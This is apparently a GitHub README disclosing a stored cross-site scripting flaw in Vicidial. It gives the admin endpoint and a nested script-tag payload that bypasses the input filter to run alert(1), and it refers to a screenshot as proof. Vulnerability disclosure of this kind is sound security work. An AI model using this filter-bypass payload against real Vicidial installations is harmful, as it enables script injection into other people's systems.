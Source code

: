 # Vicidial-stored-XSS
Vicidial is vulnerable to stored cross-site-scripting through the new script tab

# Reproduce
- go to the vicidial and login 
- then go to /admin.php?ADD=1111111
- in the script tab add the following javascript: "<scr<script>alert(1)</script>ipt>alert<script>alert(1)</script>(1)</scr<script>alert(1)</script>ipt>" 
- now click save, we were able to bypass the filter then view script 
- As you can see the code executed

# PoC
<img src="Screenshot 2022-01-23 090638.png">
